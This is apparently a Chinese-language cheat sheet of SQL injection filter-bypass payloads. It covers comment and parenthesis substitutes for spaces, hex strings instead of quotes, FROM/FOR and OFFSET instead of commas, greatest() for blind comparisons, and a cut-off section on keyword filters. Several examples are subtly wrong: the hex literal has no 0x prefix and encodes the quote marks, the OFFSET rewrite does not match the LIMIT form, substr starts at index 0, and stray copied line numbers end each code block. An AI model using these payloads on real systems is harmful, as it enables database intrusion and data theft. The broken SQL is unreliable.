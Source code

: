 #### 绕过方式

##### 绕过空格过滤

```sql
注释符绕过空格,注释符/**/代替空格
select/**/user,passwd/**/from/**/usrs; 
采用括号代替空格,时间盲注用的多
sleep(ascii(mid(database()from(1)for(1)))=109)
%a0代替空格
sqlmap有绕过空格过滤脚本
引号前后可不加空格
1234567
```

##### 绕过引号过滤

```sql
十六进制绕过
select group_concat(table_name) from information_schema.tables where table_schema='security';

select group_concat(table_name) from information_schema.tables where table_schema=2773656375726974792720
1234
```

##### 绕过逗号过滤

```sql
from for绕过
select substr(database(),1,1);
select substr(database() from 1 for 1);
offset 绕过
select * from users limit 0,1;
select * from users limit 0 offset 1;
123456
```

##### 绕过比较符号`<`,`>`

使用函数`greatest()`、`least()`，`greatest()`返回最大值，`least()`返回最小值

```sql
select * from usrs where id=1 and ascii(substr(database(),0,1))>64;
select * from usrs where id=1 and greatest(ascii(substr(database(),0,1)),64)=64;
12
```

##### 绕过`=`过滤

like、rlike、regexp

##### 绕过注释符过滤

释符的作用是达到闭合的效果，使用代码闭合符号代替注释符号

##### 绕过关键字过滤
